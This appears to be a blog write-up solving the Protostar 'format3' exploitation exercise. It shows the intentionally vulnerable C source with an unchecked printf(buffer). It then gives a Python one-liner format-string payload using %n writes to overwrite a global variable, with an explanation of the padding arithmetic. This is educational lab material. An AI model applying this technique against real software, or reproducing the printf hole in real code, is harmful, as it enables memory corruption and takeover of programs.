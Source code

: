 {% highlight c %}
int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}
{% endhighlight %}

`target`s location in memory stretches from `0x80496f4`, all the way to `0x80496f7`.

We need to overwrite the least significant bits first, since each `%n`
formatter will write 4 bytes to a given pointer. The paper [Exploiting
Format String Vulnerabilities](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf) (section 3.4.2) explains the reason better than I could.

I was able to craft a payload, which basically has three parts

* Write 68/0x44 to `0x080496f4`

* Write 85/0x55 to `0x080496f5`

* Write 258/0x102 to `0x080496f6`

~~~	
$ python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08' + '%56d%12\$n' + '%17d%13\$n' + '%173d%14\$n'" > /tmp/f3input
$ ./format3 < /tmp/f3input
...
you have modified the target :)
~~~

The addresses listed in the steps above are located at the beginning
of the format string, and are accessed via `12$n`, `13$n` & `14$n`
respectively.

By the time that the first formatter is handled by printf, 12 bytes
has already been written, to reach 0x44, a padding of 56 is used.

Next up, another 17 bytes are padded to reach 85. And finally, we throw
some more padding in there and write the final word of memory to `target`;
as we rejoice & cheer that we're getting the hang of format-exploits.

![0xdecafbae]({{ site-url }}/assets/post_images/protostar_format_format3.gif)
